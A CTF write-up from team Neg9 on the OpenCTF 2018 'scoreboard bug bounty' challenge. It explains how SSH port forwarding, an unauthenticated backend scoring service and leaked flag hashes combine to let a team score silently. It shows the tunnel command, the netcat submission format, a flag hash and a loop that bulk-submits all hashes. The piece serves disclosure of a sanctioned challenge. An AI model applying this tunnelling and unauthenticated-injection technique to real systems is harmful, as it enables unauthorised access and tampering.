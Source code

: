 ```yaml
---
title: "OpenCTF 2018 - Scoreboard Bug Bounty Writeup"
slug: "openctf-2018-scoreboard-bug-bounty-writeup"
date: "2018-08-15 10:06:19.140572"
author_name: "craSH"
author_email: "crash@neg9.org"
draft: false
toc: false
images:
---
```


Scoreboard Bug Bounty - 1337

- DEFCON 26 @Open_CTF

- 2018-08-11

- Solved by Neg9 [craSH, tecknicaltom, reidb]

> SCOREBOARD BUG BOUNTY IS OPEN. COME AT US BR0!!! V& OUT!!! https://scoreboard.openctf.com/scoreboardbugbounty-dd9dd662cb9895a2353f6c463120b9eb7fed2bfb

Scoreboard Server: scoreboard.openctf.com

The Scoreboard server is running an SSH server, which is the primary method teams use to interact with it. Each team has a shell account, and the users' shell is set to be `interact.py` from the above source archive.

There were several issues with the scoreboard system configuration, code, and how the organizers released the code, which when combined, resulted in the ability of a team to score all possible challenges for themselves without leaving any trace of doing so, and by not using the intended `interact.py` method of scoring.

- Issue 1: sshd is configured to allow port forwarding/dynamic proxying.

- Issue 2: `collect_keys.py` accepts connections without authentication, and it does not log connections made to it to syslog like `interact.py` does.

- Issue 3: The included SQLite database (`central.db`) included all (SHA512) hashes of the flags. This hash value is what the backend `collect_keys.py` takes in addition to team name and challenge ID to register a scoring event.

As such, you can directly connect to the backend and submit a known hash for a question to a team.

One could connect to the scoreboard as such to open a socket on the players local machine on port 41337 which is a tunnel to the backend service `collect_keys.py` running on the scoreboard:

    ssh -L41337:localhost:41337 neg9@scoreboard.openctf.com

And in another terminal, one could then connect to the `collect_keys.py` service as follows:

    nc localhost 41337

This would yield the service authentication string (lol) and wait to be written to:

    lol goatse

At this point, the service expects a scoring event message in the following format:

    <Team_Name>,<Question_ID>,<Flag_SHA512_Hex>

For example - here is the string to submit to score question ID 15 (this scoreboard bug bounty challenge) for team neg9:

    neg9,15,40a2475624d82487a9ded98fc661fd9dde15e02973a5280a8b4b76fc81e41a123190604848fa1d23b181a17b3303e184588211b81bef71e58ef8e26b7f300eb6

As we have all hashes in the database provided, we can script up scoring for all questions. Here is the database schema:

    CREATE TABLE questions(challenge_name text, tags text, point_value integer, answer_hash text, question text, solved integer, open integer, qualification);
    CREATE TABLE team_score(team_name text, challenge_name text, point_value integer, answer_hash text, time_solved text, first integer, PRIMARY KEY(team_name, challenge_name, point_value, answer_hash) ON CONFLICT IGNORE);

And for demonstration, here is the row for this challenge:

    sqlite> select * from questions where challenge_name like '%bug%';
    Scoreboard Bug Bounty|Kajer scoreboard|1337|40a2475624d82487a9ded98fc661fd9dde15e02973a5280a8b4b76fc81e41a123190604848fa1d23b181a17b3303e184588211b81bef71e58ef8e26b7f300eb6|Find an 0-day in our scoreboard. Source is here: https://pastebin.com/nVR8gEih

We expeditiously grabbed all of the hashes from the dump and put them in a file to work with.

The following nested for loop would submit all hashes for neg9 (we extracted just the hash values and placed them in hashes.txt):

    for hash in $(cat hashes.txt); do for id in {1..100}; do echo "neg9,${id},${hash}" | nc localhost 41337; done ; done

We made a POC of this with the question ID 15, for the scoreboard bug bounty, and we were successfully awarded **1337** points. The organizers quickly disabled SSH port forwarding/tunneling at this point, and we were not able to score for the other flags in this manner. Good work :)
